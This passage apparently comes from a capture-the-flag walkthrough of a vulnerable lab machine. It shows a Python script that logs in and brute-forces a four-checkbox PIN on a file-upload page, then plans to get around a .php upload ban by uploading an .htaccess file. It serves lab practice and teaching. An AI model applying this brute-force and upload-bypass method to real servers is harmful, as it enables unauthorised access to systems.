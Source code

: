 ```sourceCode
Tr0ll Found

The requested URL /xpath/xpanel/edit.php was not found on this server.
```

So after some manual digging nothing comes up. Time to break out `dirbuster` again to find `ploy.php` which presents me with

![image](https://i.imgur.com/DueLt5z.png)

It requires a file which it uploads, as well as a specific combination of checkboxes to be checked. Just trying some random checkboxes I can determine that the correct number of boxes is 4, but instead of trying this all manually, I'll script this part. Looking at the source of the page I see the values for the checkboxes. All I have to do is iterate of all possible combinations of 4 of these numbers.

Here's my bruteforce script:

```python
import sys
import requests
import itertools

user = 'devnull'
passwd = 'j4tC1P9aqmY'

base_url = 'https://signal8.darknet.com/xpanel/'

login_url = base_url + 'index.php'
payload = {'username': user, 'password': passwd}

sess = requests.session()

r = sess.post(login_url, data=payload)

ploy_url = base_url + 'ploy.php'

for attempt in itertools.permutations(["37","58","22","12","72","10","59","17","99"], 4):
    payload = {'Action':'Upload',
               'checkbox[]': attempt

              }

    files = {'imag':('info.txt', open('info.php', 'rb')}

    r = sess.post(ploy_url, data=payload, files=files)

    if r.text.find('Key incorrecta!') == -1:
        print 'Found pin: ', attempt
        sys.exit(0)
```

The correct PIN is `'37', '10', '59', '17'`. I tried to upload a PHP script, but that won't work. Seems uploading anything with a `php` extension is forbidden. Casting my mind back I noticed that in the apache config I noticed something interesting. For this site `AllowOverride All` is on. Most likely going to be something to do with `.htaccess`. To check this I upload the following file, and then browse to a non-existant file, to generate a 404
